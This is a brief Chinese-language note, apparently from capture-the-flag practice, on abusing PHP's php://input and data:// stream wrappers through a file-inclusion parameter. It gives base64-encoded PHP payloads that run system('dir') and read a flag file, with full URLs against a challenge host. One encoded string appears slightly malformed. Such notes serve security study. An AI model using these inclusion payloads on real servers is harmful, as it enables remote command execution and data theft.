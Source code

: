 ## 流
#php流 
### 1. php://input
用POST方法传递参数
![[../../attaches/Pasted image 20210831233146.png]]

### 2. data://
php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

使用方法:data://text/plain;base64,xxxx(base64编码后的数据)

<?php system("dir")?> base64编码后使用

[http://111.198.29.45:47062/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJkaXIisssKT8%2b](http://111.198.29.45:47062/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJkaXIisssKT8%2b)  (注意编码后的+号要URL编码)

<?php system("cat fl4gisisish3r3.php")?> base64编码后使用

[http://111.198.29.45:47062/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==](http://111.198.29.45:47062/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJjYXQgZmw0Z2lzaXNpc2gzcjMucGhwIik/Pg==)
